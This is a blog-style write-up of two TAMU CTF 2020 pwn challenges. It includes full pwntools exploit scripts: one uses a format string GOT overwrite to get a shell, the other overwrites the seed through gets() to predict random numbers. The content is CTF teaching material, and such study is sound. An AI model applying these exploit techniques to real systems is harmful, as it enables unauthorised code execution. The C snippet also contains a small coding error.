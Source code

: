 ```yaml
---
title: TAMU CTF 2020 - Pwn Writeups
summary:
date: "2020-03-30T00:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```


## **B64DECODER (244pts)** ##

![TASK](https://imgur.com/ZVHG4PA.png)

This is wont be a detailed writeup , however in this task we have a clear format string vulnerability (line 23) and a leak of a64l function address 

![TASK](https://imgur.com/EIv7uYX.png)

The idea is to overwrite the GOT entry of a64l function with the address of system in libc (not system@plt) using the format string vulnerability , it's also a partial overwrite because we have a limited length of input (32 characters) and using the leaked address of a64l we can easily know the address of system function , here is my exploit :

```python
from pwn import *
import struct
import sys
def pad(str):
        return str+"X"*(32-len(str))
payload=""
#p=process("./b64decoder")
p=remote("challenges.tamuctf.com",2783)
d=p.recvuntil("name!")
A64Ladd=d[:-18][-10:]
TOWRITE="0x"+A64Ladd[-4:]
sys=int(TOWRITE,16)-1680-4  #A64l-0x690
log.info(TOWRITE)
log.info(sys)
A64L_PLT=0x804b398
a64lADD=p32(A64L_PLT)
payload+=a64lADD
payload+="%"+str(sys)+"x%71$hn"
log.info("payload crafted")
p.sendline(payload)
log.info("Sent , Haaaw el shell")
p.interactive()

```
And Bingo we got our shell :D

![TASK](https://imgur.com/jd78uIm.png)

** NOTE: ** Task files ** [HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/TAMU%20CTF/B64DECODER) **

## **TROLL (50pts)** ##

![TASK](https://imgur.com/AgJ7rGR.png)

In this task we are supposed to win a game by guessing the next 100 random numbers , looking at the source code we can see the vulnerable gets function , after that we are setting the seed
value to the time and finally the beginning of the loop and generating the random numbers and questions each time .

![MAIN](https://imgur.com/AApFQgK.png)

My idea was to overwrite the seed value with our own value than BINGO we can generate the next random numbers and win the game , i have done things manually , i entered a unique seaquence and than observed with gdb if i have overwritten where the seed value is stored 

My input :
> AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

![TASK](https://imgur.com/XqjEzZQ.png)

I have entered a sequence of alphabet characters and stopped in the call of srand function , you can see te RDI register(where the 1st argument passed to a function is stored)  hold the value of "MMMM"
so if we replace "MMMM" with the value we want , this value will be the seed for the random numbers.

I have written this little C program to generate 100 random numbers using our chosen seed and stored them in a file :
```c
#include<stdlib.h>
#include<stdio.h>
#include<time.h>

int main(int argc, char *argv[]){
    int i=0;
int seed=3472328296227680305    //0x1000 in decimal
srand(seed);
for(i=0;i<=99;i++){
    int a=rand()% 100000 + 1;
    printf("%d\n",a);  
} 
 return 0;
}
```

After that i have written this exploit to overwrite the seed value with 0x1000 and answer the questions using the numbers we have generated 

```python
from pwn import *
#p=process("./troll")
p=remote("challenges.tamuctf.com",4765)
p.recvuntil("Who goes there?")
SEED="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP1000"
p.sendline(SEED)
log.info("Sent First payload")
answers=open("answer","r")
for line in answers:
        p.recvuntil("What is it?")
        log.info("sending answer: "+line)
        p.sendline(line)
p.interactive()

```
Note: the offset in the remote server is different, so i had to guess it xD However we got our flag : 

![MAIN](https://imgur.com/QjwTHDR.png)

** NOTE: ** Task files ** [HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/TAMU%20CTF/TROLL) **

This is the first time writing a pwn writeup so i hope you enjoyed it , any questions you can find me on twitter @BelkahlaAhmed1

